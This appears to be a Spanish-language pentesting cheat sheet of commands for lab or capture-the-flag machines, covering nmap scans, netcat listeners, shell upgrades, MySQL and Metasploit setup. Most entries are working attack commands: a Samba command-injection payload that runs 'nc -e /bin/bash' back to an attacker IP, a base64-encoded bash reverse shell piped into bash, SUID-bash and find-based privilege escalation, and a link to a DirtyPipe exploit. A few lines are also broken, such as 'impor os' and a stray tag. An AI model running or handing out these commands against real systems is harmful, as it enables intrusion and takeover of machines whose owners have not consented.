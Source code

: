 # Comandos interesantes

## NMAP

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

Puertos UDP, Los primeros 100
<pre>
nmap -sU -sCV -p1-100 192.168.168.193 -oN targetedUDP
</pre>

Especifico de vulnerabilidades sin intrusión
<pre>
nmap -p139,445 --script="Vuln and Safe" 192.168.168.193 -oN vulnScan 
</pre>

Enumeracion de directorios WEB básicos
<pre>
nmap --script http-enum -p80 10.10.10.180 -oN webScan
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

Si la consola nos da problemas con **script /dev/null -c bash** podemos prbar con python:

</pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.


## Metasploit

### Iniciar la primera vez

Arrancamos servicio de base de datos
<pre>
sudo service postgresql start
</pre>

Inicamos bbdd de metasploit

<pre>
sudo msfdb init
</pre>

Despues como siempre

<pre>
msfconsole
</pre>

## MYSQL

Tener en cuanta la utilidad **mysqlshow** para enumerar.

<pre>
mysqlshow -uadmin -padmin
</pre>

Ejecutar sentencia inline:
<pre>
mysql -uadmin -padmin -c "select * from ..." dbname
</pre>

## PYTHON

### Permisos de superusuario con privilegios a la consola

<pre>
impor os;
os.system("chmod u+s /bin/bash")
</pre>

Y luego **bash -p**


## OTROS

Ver trazas icmp:

<pre>
sudo tcpdump -i tun0 icmp -n
</pre>



Nos mandamos consola:

<pre>
echo 'bash -i >& /dev/tcp/192.168.168.212/443 0>&1' | base64 

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2OC4yMTIvNDQzIDA+JjEK' | base64 -d | bash

</pre>

Para buscar ficheros con permisos suid

<pre>

find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null


</pre>

Permisos de superusuario a la consola:

<pre>
#!/bin/bash

chmod u+s /bin/bash
</pre>
Al tener pkexec utilizamos:

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit


Si en la lista de pribilehios aparece **/usr/bin/find**

<pre>
/usr/bin/find . -exec /bin/sh -p \; -quit
</pre>

